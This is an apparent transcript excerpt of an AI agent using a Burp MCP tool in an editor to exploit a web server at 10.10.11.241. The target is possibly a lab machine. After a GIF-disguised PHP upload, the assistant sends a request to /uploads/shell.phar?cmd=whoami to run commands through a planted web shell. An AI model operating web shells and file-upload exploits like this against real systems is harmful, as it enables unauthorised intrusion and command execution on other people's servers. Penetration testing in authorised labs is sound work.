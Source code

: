 
**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 200 OK
Date: Wed, 07 May 2025 23:41:36 GMT
Server: Apache/2.4.55 (Ubuntu)
Content-Length: 20
Connection: close
Content-Type: text/html; charset=UTF-8

GIF89a;
<pre></pre>
<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:41:38 PM (America/New_York, UTC-4:00)

# Context Window Usage
48,890 / 200K tokens used (24%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
Interesting! The response has Content-Type: text/html; charset=UTF-8, which suggests that the PHP code is being executed. However, the command output is empty. This could mean that the command is being executed but there's no output, or the command is failing silently.

Let's try a different command that should always produce output, like 'whoami':
</thinking>

Interesting! The response has Content-Type: text/html; charset=UTF-8, which suggests that the PHP code is being executed. However, the command output is empty. Let's try a different command that should always produce output.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "GET /uploads/shell.phar?cmd=whoami HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nConnection: close\r\n\r\n",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---